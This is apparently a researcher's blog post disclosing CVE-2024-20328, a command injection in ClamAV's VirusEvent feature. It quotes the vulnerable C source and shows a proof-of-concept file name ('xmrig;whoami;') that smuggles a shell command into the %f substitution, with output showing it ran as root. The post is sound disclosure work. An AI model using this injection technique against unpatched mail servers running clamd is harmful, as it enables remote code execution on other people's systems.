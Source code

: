 ```yaml
---
layout: single
title:  "CVE-2024-20328 - ClamAV Not So Calm"
date:   2024-02-07 12:00:00 +0530
categories: Vulnerabilites
---
```

# Introduction
On Janurary 2nd, 2024, I found a vulnerability in [ClamAV](https://www.clamav.net/), a popular open-source antivirus engine.

A crafted file name can cause a command injection vulnerability in ClamAV's `VirusEvent` feature. This can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd.

Since ClamAV is being used as an antivirus engine to scan files especially in mail servers, this vulnerability can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd from remote without user interaction.

## Vulnerability
The `VirusEvent` feature allows Clamd to execute a command when a virus is detected. The command is executed in the following format:
```
VirusEvent /usr/local/bin/send_sms 123456789 "VIRUS ALERT: %v in %f"
```

Where `%v` is the virus name and `%f` is the file name. The file name is not sanitized, allowing an attacker to inject a command into the command string.

`VirusEvent` is a configuration option in the `clamd.conf` file. The command is executed with the privileges of the user running Clamd.

In the file `clamd/clamd_others.c`, the function `virusaction` is the function that handles the `VirusEvent` feature. The function is defined as follows:
```c
void virusaction(const char *filename, const char *virname,
                 const struct optstruct *opts)
{
    pid_t pid;
    const struct optstruct *opt;
    char *buffer_file, *buffer_vir, *buffer_cmd, *path;
    const char *pt;
    size_t i, j, v = 0, f = 0, len;
    char *env[4];

    if (!(opt = optget(opts, "VirusEvent"))->enabled)
        return;

    path   = getenv("PATH");
    env[0] = path ? strdup(path) : NULL;
    j      = env[0] ? 1 : 0;
    /* Allocate env vars.. to be portable env vars should not be freed */
    buffer_file =
        (char *)malloc(strlen(VE_FILENAME) + strlen(filename) + 2);
    if (buffer_file) {
        sprintf(buffer_file, "%s=%s", VE_FILENAME, filename);
        env[j++] = buffer_file;
    }

    buffer_vir =
        (char *)malloc(strlen(VE_VIRUSNAME) + strlen(virname) + 2);
    if (buffer_vir) {
        sprintf(buffer_vir, "%s=%s", VE_VIRUSNAME, virname);
        env[j++] = buffer_vir;
    }
    env[j++] = NULL;

    pt = opt->strarg;
    while ((pt = strstr(pt, "%v"))) {
        pt += 2;
        v++;
    }
    pt = opt->strarg;
    while ((pt = strstr(pt, "%f"))) {
        pt += 2;
        f++;
    }
    len = strlen(opt->strarg);
    buffer_cmd =
        (char *)calloc(len + v * strlen(virname) + f * strlen(filename) + 1, sizeof(char));
    if (!buffer_cmd) {
        if (path)
            xfree(env[0]);

        xfree(buffer_file);
        xfree(buffer_vir);
        return;
    }
    for (i = 0, j = 0; i < len; i++) {
        if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'v') {
            strcat(buffer_cmd, virname);
            j += strlen(virname);
            i++;
        } else if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'f') {
            strcat(buffer_cmd, filename);
            j += strlen(filename);
            i++;
        } else {
            buffer_cmd[j++] = opt->strarg[i];
        }
    }

    pthread_mutex_lock(&virusaction_lock);
    /* We can only call async-signal-safe functions after fork(). */
    pid = vfork();
    if (pid == 0) { /* child */
        _exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
    } else if (pid > 0) { /* parent */
        pthread_mutex_unlock(&virusaction_lock);
        while (waitpid(pid, NULL, 0) == -1 && errno == EINTR) continue;
    } else {
        pthread_mutex_unlock(&virusaction_lock);
        logg(LOGG_ERROR, "VirusEvent: fork failed.\n");
    }
    if (path)
        xfree(env[0]);

    xfree(buffer_cmd);
    xfree(buffer_file);
    xfree(buffer_vir);
}
```
The function first checks if the `VirusEvent` feature is enabled. If it is, it then gets the `PATH` environment variable and stores it in `env[0]`. It then allocates memory for the `VE_FILENAME` and `VE_VIRUSNAME` environment variables, and stores them in `env[1]` and `env[2]` respectively. It then allocates memory for the command string, and replaces `%v` and `%f` with the virus name and file name respectively. It then calls `vfork()` to create a child process, and executes the command string in the child process. The parent process waits for the child process to finish executing the command string.

The vulnerability is in the way `buffer_cmd` being handled without being sanitized. An attacker can inject a command into the command string, and execute arbitrary code on the system running Clamd.

The following line is the vulnerable line:
```c
_exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
```

## Exploit
Assuming clamd.conf is configured as follows:
```
VirusEvent "echo VIRUS DETECTED: %v in the path %f >> /dev/stdout"
```

The following file name will cause the command to be executed:
```bash
# xmrig;whoami; - payload.
echo VIRUS DETECTED: [signature] in the path xmrig;whoami; >> /dev/stdout
```

Output:
```
VIRUS DETECTED: Multios.Coinminer.Miner-6781728-2.UNOFFICIAL in the path
/host/crypto-miner/xmrig
root
```

## Who is affected?
0.104 (all patch versions)
0.105 (all patch versions)
1.0.0 through 1.0.4 (LTS)
1.1 (all patch versions)
1.2.0 and 1.2.1


## Timeline
- Janurary 2nd, 2024 - Vulnerability found.
- Janurary 2nd, 2024 - Vulnerability reported to ClamAV team.
- Feburary 7th, 2024 - Vulnerability fixed by ClamAV team.

![CVE-2024-20328](https://raw.githubusercontent.com/amitschendel/amitschendel.github.io/master/assets/images/clam.png)